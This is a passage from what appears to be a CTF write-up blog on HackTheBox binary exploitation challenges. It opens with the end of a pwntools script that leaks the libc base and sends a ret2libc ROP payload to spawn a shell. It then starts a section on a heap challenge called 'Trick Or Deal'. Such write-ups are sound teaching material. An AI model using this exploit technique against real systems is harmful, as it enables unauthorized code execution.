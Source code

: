 ```python
libc.address = u64(r.recvline().strip().ljust(8, b"\x00")) - 0x6f6a0
log.info(f"libc = {hex(libc.address)}")

#Stage 2

binsh = next(libc.search(b"/bin/sh"))
r.sendlineafter("b399f], y = ", "dpl")
payload = b"A"*0x58
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(libc.sym.system)
r.sendlineafter("[*] Verify new coordinates? (y/n): ", payload)

#========= interactive ====================
r.interactive()
#HTB{d0_n0t_3v3R_pr355_th3_butt0n}
```
## Trick Or Deal

This was an enjoyable challenge to solve. It's an x64 program with enabled FULL RELRO, Canary, NX, and PIE. I used the "libc-database" discussed previously to find out this was a 2.31 Glibc version. This is worth noticing since you will see on the output below a custom Glibc. I use [patchelf](https://github.com/NixOS/patchelf) to patch the binary with a Glibc version of my own compiled with symbols. This way, I can use commands like "vis" in pwndbg and better visualize the heap layout.


![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-13-20-41.png)

**Walkthrough & Reverse Engineering** 

The program functionality is on a menu with different options that point to functions.

![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-05-25-13-25-55.png)
